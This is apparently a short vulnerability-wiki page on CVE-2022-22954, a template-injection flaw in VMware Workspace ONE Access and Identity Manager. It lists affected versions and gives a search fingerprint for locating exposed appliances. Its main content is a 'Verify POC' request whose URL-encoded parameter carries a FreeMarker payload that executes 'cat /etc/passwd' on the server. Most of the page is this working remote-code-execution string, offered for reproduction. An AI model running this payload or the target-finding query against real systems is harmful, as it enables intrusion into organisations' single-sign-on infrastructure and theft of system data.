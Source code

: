 # VMware Workspace ONE Access SSTI Vulnerability CVE-2022-22954

## Vulnerability Description

VMware Workspace ONE Access (formerly known as VMware Identity Manager) is designed to give your employees faster access to SaaS, Web, and native mobile applications with multi-factor authentication, conditional access, and single sign-on. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VMware Workspace ONE Access Appliance (version number: 20.10.0.0, 20.10.0.1, 21.08.0.0, 21.08.0.1)</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VMware Identity Manager Appliance (version number: 3.3.3, 3.3.4, 3.3.5, 3.3.6)</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VMware Realize Automation (version number: 7.6)</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="vmware-Workspace-ONE-Access"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649728317418-bfa9ad4f-9b88-461c-90db-da37bb591b19.png)

Verify POC

```php
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649728372163-e5da4186-4042-4cb5-a4ad-66580ff6af49.png)